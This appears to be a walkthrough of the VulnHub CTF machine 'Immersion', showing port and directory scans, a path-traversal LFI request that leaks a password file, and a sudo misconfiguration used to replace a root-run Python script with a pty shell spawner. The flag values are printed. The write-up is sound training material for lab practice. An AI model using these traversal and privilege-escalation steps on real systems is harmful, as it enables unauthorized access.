 ```yaml
---
title: "ColddWorld: Immersion Walkthrough"
description: "Immersion VulnHub CTF walkthrough"
---
```


{% highlight text %}
Will you be able to do the dive and take out both flags on this machine?

Please share your feedback: "https://twitter.com/C0ldd__”
{% endhighlight %}


nmap 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.153
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 08:14 EDT
Nmap scan report for 192.168.56.153
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3042/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
{% endhighlight %}
gobuster output:
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.153/ -x php,txt,html -q
/index.html           (Status: 200) [Size: 401]
/login                (Status: 301) [Size: 316] [--> http://192.168.56.153/login/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.56.153/css/]  
/wp                   (Status: 301) [Size: 313] [--> http://192.168.56.153/wp/]   
/secure               (Status: 301) [Size: 317] [--> http://192.168.56.153/secure/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.56.153/js/]
{% endhighlight %}

From the login page: 
{% highlight text %}
Hi Carls, if you read this, I have gone on a trip, let me tell you,
after the last attack we received (thanks to your inactivity as a web
developer) we had to make password changes, but since he doesn't use a mobile phone
or home computers (a bit weird since you are a web developer), I left clues on the "page"
for you to find your password, I know it will be easy because you are
good for detecting security flaws (or so I thought before the attack :D), I leave your password in a file called carls.txt that is inside /var, when you get it,
log in and finish your work by preparing my bash.
{% endhighlight %}
Take note of the "pages" hint. 
Exploiting LFI on the login page: 
http://192.168.56.153/login/account.php?page=../../../carls.txt

carls:Y2FybG9z

{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ echo "Y2FybG9z" | base64 -d                                             130 ⨯
carlos
{% endhighlight %}

Checking sudo -l to see what carls can run as another user
{% highlight terminal %}
carls@Immersion:~$ sudo -l
[sudo] password for carls: 
Coincidiendo entradas por defecto para carls en Immersion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario carls puede ejecutar los siguientes comandos en Immersion:
    (c0ldd : c0ldd) /bin/bash
carls@Immersion:~$ 
{% endhighlight %}
Switching to the c0ldd user: 
{% highlight terminal %}
carls@Immersion:~$ sudo -u c0ldd /bin/bash
c0ldd@Immersion:~$ 
{% endhighlight %}

Checking sudo privileges with sudo -l

{% highlight terminal %}
c0ldd@Immersion:~$ sudo -l
Coincidiendo entradas por defecto para c0ldd en Immersion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en Immersion:
    (root) NOPASSWD: /usr/bin/python3 /home/c0ldd/DoNotRun.py
c0ldd@Immersion:~$ 
{% endhighlight %}

Enumerating local files for the c0ldd user: 
{% highlight terminal %}
c0ldd@Immersion:/home/c0ldd$ cat user.txt 
TXV5IGJpZW4gaGVjaG8gOik=
{% endhighlight %}

Can't overwrite the file but we can delete it and create a new version of the 
script to be run as root!
{% highlight terminal %}
c0ldd@Immersion:/home/c0ldd$ rm DoNotRun.py 
rm: ¿borrar el fichero regular 'DoNotRun.py'  protegido contra escritura? (s/n) y
c0ldd@Immersion:/home/c0ldd$ ls -a
.   .bash_history  .bashrc  .nano     .sudo_as_admin_successful
..  .bash_logout   .cache   .profile  user.txt
c0ldd@Immersion:/home/c0ldd$ touch DoNotRun.py
c0ldd@Immersion:/home/c0ldd$ vim DoNotRun.py 
c0ldd@Immersion:/home/c0ldd$ ls
DoNotRun.py  user.txt
c0ldd@Immersion:/home/c0ldd$ cat DoNotRun.py 
import pty
pty.spawn("/bin/bash")

c0ldd@Immersion:/home/c0ldd$ sudo -u root /usr/bin/python3 /home/c0ldd/DoNotRun.py 
root@Immersion:/home/c0ldd# 
{% endhighlight %}

Getting the root flag: 
{% highlight terminal %}
root@Immersion:/root# cat root.txt 
RmVsaWNpZGFkZXMgY3JhY2s=
{% endhighlight %}



